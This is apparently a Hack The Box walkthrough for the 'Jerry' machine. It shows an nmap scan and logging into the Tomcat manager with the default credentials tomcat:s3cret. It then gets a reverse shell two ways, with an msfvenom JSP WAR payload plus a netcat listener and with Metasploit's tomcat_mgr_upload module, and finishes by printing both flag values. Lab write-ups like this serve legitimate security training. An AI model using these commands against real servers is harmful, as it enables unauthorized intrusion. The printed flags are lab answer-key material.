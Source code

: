 # jerry

[link to the box](https://app.hackthebox.com/machines/Jerry)

1. [scanning](#scanning)
2. [getting-manager](#getting-manager)
3. [exploiting](#exploiting)
   1. [msfvenom](#msfvenom)
   2. [msfconsole](#msfconsole)
4. [pwning](#pwning)


# scanning

as with anything, we first scan the target for open ports

```bash
$ nmap -Pn -sV 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

this looks like a webpage that we can try to visit. lets connect to it!

# getting-manager

http://10.10.10.95:8080/

![tomcat homepage](img/tomcat-home.png)

the fancy tomcat web server looks like it has a manager portal. lets try accessing it with some common usernames and passwords:

`root:root root:toor admin:password admin:1234`

...none of which work, obvoiusly. we do get to see a nice 'access denied' webpage though.

![access denied](img/access-denied.png)

which happens to highlight a default username and password for tomcat, `tomcat:s3cret`. lets try it.

![tomcat manager panel](img/tomcat-manager.png)

and we have access to manager now! what a dumb way to get to it. from manager, we are able to upload our own `.WAR` files to the server.

upon further research, these are executed on the host machine and therefore can be used to create a reverse shell! lets explore 2 methods we have at our disposal for this.

# exploiting

## msfvenom

an easy way to get a reverse shell would be to use `msfvenom` to create a payload that we deploy manually on the server. here is a short walkthrough:

use `msfvenom` to create payload using the command:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local ip> LPORT=<unused port> -f war > jsp-shell-reverse-tcp.war
```

once the payload has been created, start netcat to recieve the reverse shell.

```bash
nc -lvp <same unused port>
```

upload the payload through the manager webportal, then click on its file in the 'applications' table to execute it.

congrats! you now have a reverse shell.

## msfconsole

a simpler and automatic method would be to use `exploit/multi/http/tomcat_mgr_upload` in `msfconsole` to create our reverse shell. here is a short walkthrough:

```bash
$ msfconsole
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 payload(...) > options
msf6 payload(...) > set RHOSTS 10.10.10.95
msf6 payload(...) > set RPORT 8080
msf6 payload(...) > set HttpUsername tomcat
msf6 payload(...) > set HttpPassword s3cret
msf6 payload(...) > set LHOST <local ip>
msf6 payload(...) > set LPORT <unused port>
msf6 payload(...) > exploit
```

congrats! you now have a reverse shell on the target machine.

# pwning

since we are now properly in a windows shell, we can start looking around for flags.

(if you are in an meterpreter shell, run `shell` to open cmd.exe)

first, run `whoami` to see what permissions we have.

![we are root](img/whoami.png)

oh. we are administraror. no escalation needs to occur.

search the system for flag files:

```bash
cd ..              # get to root of disk
where /r c: *flag* # nothing
where /r c: *.txt  # something!
```

using `where` in windows, we are able to find `c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"`

use `type` to print the contents of the file

```bash
type c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

congrats! youre winner.
